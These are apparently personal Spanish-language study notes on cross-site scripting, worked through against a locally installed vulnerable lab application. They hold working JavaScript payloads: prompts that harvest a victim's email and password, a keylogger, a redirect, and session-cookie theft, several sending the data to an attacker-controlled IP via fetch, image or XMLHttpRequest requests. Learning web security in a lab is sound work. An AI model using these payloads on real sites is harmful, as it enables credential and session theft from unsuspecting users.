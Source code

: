 Esta vulnerabilidad permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales. Para practicar vamos a utilizar el siguiente repositorio:
![[Mis apuntes/ANEXOS/Pasted image 20230428095404.png]]

Nos clonamos el repositorio y entramos en la siguiente ruta:
![[Mis apuntes/ANEXOS/Pasted image 20230428095644.png]]

Hacemos un make install y nos lo monta todo por el puerto 10007:
![[Mis apuntes/ANEXOS/Pasted image 20230428095740.png]]

Y accedemos a este panel:
![[Mis apuntes/ANEXOS/Pasted image 20230428095845.png]]

Por lo que nos creamos dos cuentas, el usuario mario con contraseña password1 y el usuario penguin con la contraseña 123123:
![[Mis apuntes/ANEXOS/Pasted image 20230428095929.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230428095946.png]]

## XSS REFLECTED - HTML INJECTION
Una vez estamos dentro, tenemos la posibilidad de crear una nueva entrada en la web para que sea publicada:
![[Mis apuntes/ANEXOS/Pasted image 20230428100041.png]]

Y por ejemplo si publicamos algo se queda reflejado:
![[Mis apuntes/ANEXOS/Pasted image 20230428100147.png]]

Ahora vamos a crear otra nota tratando de inyectar código html probando por ejemplo con la etiqueta h1:
![[Mis apuntes/ANEXOS/Pasted image 20230428100313.png]]

Y vemos que se aplica esta etiqueta:
![[Mis apuntes/ANEXOS/Pasted image 20230428100355.png]]
## Scripts de JavaScript
Viendo lo anterior, podemos inyectar código javascript para establecer que la página web víctima ejecute cierto código y alterar así su comportamiento:
![[Mis apuntes/ANEXOS/Pasted image 20230428100657.png]]

Y si ejecutamos esto, se nos abrirá un pop-up:
![[Mis apuntes/ANEXOS/Pasted image 20230428100739.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230428100750.png]]
## INGENIERÍA SOCIAL EN XSS
Podemos inyectar código javascript que solicite al usuario víctima que inserte un correo, a través de este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email);
        }
</script>
```
![[Mis apuntes/ANEXOS/Pasted image 20230428101528.png]]

Y ahora si accedemos al post, nos pide un email:
![[Mis apuntes/ANEXOS/Pasted image 20230428101544.png]]

Y si nos ponemos en escucha con netcat, habremos recibido el correo del usuario:
![[Mis apuntes/ANEXOS/Pasted image 20230428101652.png]]

No obstante, si quisiéramos también pedir la contraseña al usuario, podríamos usar este código:
```javascript
<script>
        var email = prompt("Introduce tu email: ");
        var password = prompt("Introduce tu contraseña: ");

        if (email == null || email == ""){
         alert("Hay que poner un correo válido");
        } else {
         fetch("http://192.168.0.57/" + email + password);
        }
</script>
```

Y nos pide el correo y después la contraseña:
![[Mis apuntes/ANEXOS/Pasted image 20230428102059.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230428102136.png]]

## XSS PERSISTENTE
El payload se almacena en las bases de datos de la aplicación por medio de entradas que permanecen siempre en la página, como comentarios, foros, etc:

## Keylogger con javascript
Si queremos crear un keylogger para ir capturando las pulsaciones del teclado de un usuario, lo haría con el siguiente código
```javascript
<script>
        var k = "";
        document.onkeypress = function(e){
         e = e || window.event;
         k += e.key;
         var i = new Image();
         i.src = "http://192.168.0.32/" + k;
};
</script>
```
![[Mis apuntes/ANEXOS/Pasted image 20230428102840.png]]

Y ahora si vamos al post llamado keylogger y escribimos en alguna parte, veremos como todo lo que se escriba se habrá registrado:
![[Mis apuntes/ANEXOS/Pasted image 20230428102956.png]]
## Redirigir al Usuario a otra Web
También podemos redirigir al usuario a otra web de forma automática utilizando este código:
```javascript
<script>
window.location.href="https://google.es";
</script>
```
![[Mis apuntes/ANEXOS/Pasted image 20230428103518.png]]

Y ahora si hacemos clic a este post publicado, nos llevará a google (o a la página phising correspondiente):
![[Mis apuntes/ANEXOS/Pasted image 20230428103548.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230428103555.png]]
## Capturar Cookie de Sesión con XSS
Podemos crear un código javascript para que nos muestre la cookie de sesión del usuario. Por lo que primero tenemos que comprobar que dentro de los ajustes de la web, la cookie no se encuentre protegida, ya que debe aparecer de esta forma:
![[Mis apuntes/ANEXOS/Pasted image 20230428104537.png]]

Y después tenemos que poner este código:
```javascript
<script>
   alert(document.cookie);
</script>
```
![[Mis apuntes/ANEXOS/Pasted image 20230428104826.png]]

Y vemos la cookie de sesión (aunque de momento solo se le muestra al mismo usuario):
![[Mis apuntes/ANEXOS/Pasted image 20230428104929.png]]

Para poder robar la cookie de inicio de sesión del usuario, necesitaremos primero este código:
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.19/?cookie=' + document.cookie);
request.send();
```
![[Mis apuntes/ANEXOS/Pasted image 20230428105423.png]]

Y con python si nos ponemos en escucha deberíamos de recibir la cookie de sesión:
![[Mis apuntes/ANEXOS/Pasted image 20230428105738.png]]
